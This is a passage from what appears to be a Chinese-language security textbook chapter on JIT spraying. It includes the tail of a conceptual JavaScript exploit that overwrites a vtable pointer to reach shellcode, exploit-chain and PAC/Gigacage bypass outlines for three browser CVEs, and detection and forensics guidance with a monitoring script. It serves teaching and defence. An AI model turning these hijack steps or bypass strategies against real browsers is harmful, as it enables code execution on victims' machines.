    // 找到一个安全的gadget入口点（偏移量需要逆向分析）
    var gadgetOffset = findGadgetOffset(sprayFunc);
    var gadgetAddr = jitBase + gadgetOffset;
    console.log("[+] Gadget addr: 0x" + gadgetAddr.toString(16));

    // Step 4: 劫持控制流
    // 通过类型混淆获取的写原语，修改目标对象的函数指针
    var targetObj = typeConfusionVuln.getTargetObject();
    var fakeVtableEntry = gadgetAddr;

    // 写入伪造的函数地址
    arbitraryReadWrite.write(targetObj.vtablePtr + FUNC_OFFSET, fakeVtableEntry);

    // Step 5: 触发执行
    // 当目标对象的方法被调用时，控制流跳转到gadget
    targetObj.triggerMethod(); // → 跳转到JIT代码段gadget → 执行shellcode
}
```

### 31.6.9 实战案例

#### 案例1：V8 TurboFan JIT喷射（CVE-2021-30632分析）

该漏洞是V8引擎中的一个类型混淆漏洞，攻击者可以通过它实现JIT喷射利用：

```text
漏洞类型：类型混淆（Type Confusion）
影响版本：Chrome < 94.0.4606.81
利用难度：中等

利用链概要：
1. 漏洞触发：通过精心构造的JavaScript代码触发TurboFan优化编译器中的类型混淆
2. 获得原语：类型混淆提供了越界读写能力
3. JIT喷射：在漏洞利用前，先通过JS代码触发JIT喷射
4. 地址泄露：通过越界读获取JIT代码段中的函数指针
5. 控制流劫持：利用越界写修改JIT代码段附近的控制流数据
6. 代码执行：跳转到JIT喷射布置的gadget网格中执行shellcode
```

#### 案例2：SpiderMonkey JIT优化器漏洞（CVE-2019-11757分析）

```text
漏洞类型：JIT编译器类型混淆
影响版本：Firefox ESR < 68.0 / Firefox < 68.0
利用难度：中等

关键点：
- SpiderMonkey的IonMonkey优化编译器在某些情况下错误推断变量类型
- 攻击者可以通过JS代码触发这一推断错误
- 错误的类型推断导致生成的机器码访问越界内存
- 结合JIT喷射，可以在被越界访问的区域布置可控数据

利用技巧：
- 使用ArrayBuffer和TypedArray构造类型混淆
- 利用Proxy对象干扰引擎的类型推断
- 通过多轮优化-去优化循环稳定触发条件
```

#### 案例3：WebKit JIT编译器漏洞（CVE-2021-30858分析）

```text
漏洞类型：越界写入
影响版本：iOS < 15.0 / macOS Big Sur < 11.6
利用难度：高

JIT喷射在Apple平台的特殊挑战：
- Apple Silicon使用ARM64架构，指令编码与x86不同
- PAC（Pointer Authentication Code）保护函数指针
- Gigacage将JIT代码隔离在专用内存区域

绕过策略：
- PAC绕过：利用信息泄露获取PAC密钥，或构造不带指针认证的跳转
- Gigacage绕过：Gigacage内的地址仍然可以被直接跳转
- ARM64适配：JIT喷射需要使用ARM64兼容的常量编码
```

### 31.6.10 检测与取证

JIT喷射在运行时的行为模式具有可检测特征，防御者可以从多个层面进行检测。

#### 内存取证

```text
JIT喷射的内存特征：

1. 异常的JIT代码段大小
   正常页面的JIT代码通常在数十KB到数MB之间
   JIT喷射会导致JIT代码段异常膨胀（数十MB）
   检测：监控/proc/[pid]/maps中JIT相关内存区域的大小

2. 常量模式检测
   JIT喷射的代码中包含大量重复的XOR+常量模式
   检测：扫描JIT代码段，查找异常高频出现的字节序列
   标准：如果某个32位模式在JIT代码中出现超过1000次，高度可疑

3. 内存页权限异常
   正常JIT代码页只有R-X权限
   某些JIT喷射变体可能利用权限切换窗口
   检测：监控mprotect系统调用的日志
```

#### 行为监控

```bash
# 监控JIT相关的系统调用
# Linux: 使用perf或strace监控mprotect调用
strace -e mprotect -p <pid>

# 检测异常的mprotect模式
# JIT喷射通常会频繁切换页面权限（写入→执行→写入→执行）
# 正常JIT编译的权限切换频率远低于JIT喷射

# 使用eBPF监控（需要root权限）
# 监控mprotect调用频率和模式
cat << 'EOF' > /tmp/monitor_jit_spray.py
#!/usr/bin/env python3
"""监控JIT喷射的eBPF脚本概念"""
# 实际使用需要BCC或libbpf
import subprocess
import time

def monitor_mprotect(pid):
    """监控目标进程的mprotect调用"""
    cmd = f"strace -e mprotect -p {pid} -f 2>&1"
    proc = subprocess.Popen(cmd, shell=True, stdout=subprocess.PIPE)

    pattern_count = 0
    last_addr = 0

    for line in iter(proc.stdout.readline, b''):
        line = line.decode('utf-8', errors='replace')
        if 'mprotect' in line and 'PROT_EXEC' in line:
            # 提取内存地址
            # 异常模式：同一地址区域频繁切换权限
            pattern_count += 1
            if pattern_count > 100:  # 阈值
                print(f"[!] 疑似JIT喷射: {pattern_count} 次权限切换")

monitor_mprotect(12345)  # 目标进程PID
EOF
```

#### 取证分析要点

```text
JIT喷射攻击的取证清单：

1. 进程内存快照
   - 使用 /proc/[pid]/mem 获取内存镜像
   - 重点分析JIT代码段（标记为 r-xp 的匿名映射）
   - 检查是否存在大量重复的常量嵌入模式

2. JavaScript上下文还原
   - 如果进程是Node.js/浏览器，分析V8 heap dump
   - 检查是否存在异常大量的函数对象（JIT喷射需要编译大量函数）
   - 分析函数的源码是否包含JIT喷射特征（重复XOR操作）

3. 网络流量分析
   - JIT喷射通常由恶意网页触发
   - 检查网络流量中是否存在可疑的JavaScript代码
   - 分析JavaScript代码是否包含shellcode编码模式

4. 时间线分析
   - JIT编译需要大量函数调用（通常10万次以上）
   - 检查目标进程在攻击时间窗口内的CPU使用模式
   - JIT喷射会导致短时间内CPU使用率急剧上升
```

### 31.6.11 总结与展望

JIT喷射技术的核心创新在于**利用JIT编译器这一合法的代码生成机制，在可执行内存中布置攻击者控制的指令序列**。这项技术从根本上揭示了一个深层安全问题：**当程序动态生成可执行代码时，任何控制生成过程的能力都可能转化为任意代码执行能力**。

#### 技术演进路线

```text
2009: Alex Sotirov首次系统提出JIT Spray概念
      ↓
2010-2015: 浏览器厂商逐步部署W^X、常量池等防御
      ↓
2015-2019: JIT喷射技术演进，浮点编码、类型混淆组合利用
      ↓
2019-2021: V8/SpiderMonkey多个JIT编译器漏洞被利用
      ↓
2021-至今: 与WebAssembly、PAC、Gigacage等新机制的对抗
      ↓
未来: JIT编译器的形式化验证、硬件辅助的代码完整性保护
```

#### 对安全研究的启示

1. **攻击面思维**：JIT编译器不仅是性能优化工具，也是潜在的攻击面。任何动态代码生成机制都值得安全审查
2. **深度防御**：单一防御（如W^X）不足以阻止JIT喷射，需要多层防御协同工作
3. **类型安全**：JIT喷射利用链通常依赖类型混淆漏洞获得原语，加强类型系统安全性是关键
4. **形式化验证**：对JIT编译器进行形式化验证，证明生成的代码满足安全不变量，是终极解决方案


